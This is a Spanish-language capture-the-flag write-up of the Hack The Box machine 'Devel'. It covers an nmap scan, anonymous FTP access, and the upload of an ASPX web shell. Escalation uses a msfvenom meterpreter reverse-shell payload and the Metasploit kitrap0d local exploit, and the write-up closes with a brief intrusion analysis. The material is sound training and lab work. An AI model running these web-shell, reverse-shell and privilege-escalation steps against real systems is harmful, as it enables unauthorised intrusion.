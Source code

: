 # Devel ![Avatar](https://www.hackthebox.eu/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1_thumb.png)     

## Initial Scan

```nmap
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```
## Enumeration

### FTP

Empecemos enumerando el FTP
```bash
pj@crow-foot:~$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pj): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
Vemos que lo que tenemos es el directorio de la pagina que hay en el puerto 80, puede que podamos subir una shell

## Exploit

Usaremos una shell aspx por que es un cliente aspnet
```
https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/aspx/shell.aspx
```
La descargamos y la subimos al FTP
```ftp
put shell.aspx
```
Y accedmos a http://10.10.10.5/shell.aspx

## Privesc

Ya tenemos shell en la máquina

### Enumeración de Usuarios

```
 Directory of C:\Users

18/03/2017  02:16 §£    <DIR>          .
18/03/2017  02:16 §£    <DIR>          ..
18/03/2017  02:16 §£    <DIR>          Administrator
17/03/2017  05:17 ££    <DIR>          babis
18/03/2017  02:06 §£    <DIR>          Classic .NET AppPool
14/07/2009  10:20 §£    <DIR>          Public
```
No tenemos acceso a ninguno pero sabemos que los usuarios con flag son babis y Administrator ya que el actual no tiene acceso a ninguna flag

### Versiones y hotfixes

Ejecutamos el comando systeminfo aún desde la webshell
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ££
System Boot Time:          1/8/2020, 1:44:56 ££
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 652 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.503 MB
Virtual Memory: In Use:    544 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
De aquí sacamos que tenemos un windows 7 de 32 bits y sin parchear

### Convirtiendo la web shell en reverse shell
Generamos una Rev Shell con msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f aspx  > shell.aspx
```
Subimos la revshell al FTP y nos conectamos a ella aprovechando que la hemos generado con msfvenom vamos a usar el exploit sugester de metasploit para poder encontrar una manera de elevar privilegios en la máquina
```
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
Voy a hacer una excepción y lo voy a explotar con Metasploit haciendo uso de este modulo
```
exploit/windows/local/ms10_015_kitrap0d
```
Y con eso ya podriamos leer las dos flags

# Analisís de la intrusión
### FTP Login Anonymous habilitado
Podemos gestionar los archivos del servidor mediante el servicio FTP pero sin ningún tipo de autentificación, pudiendo descargar y subir archivos arbitarios

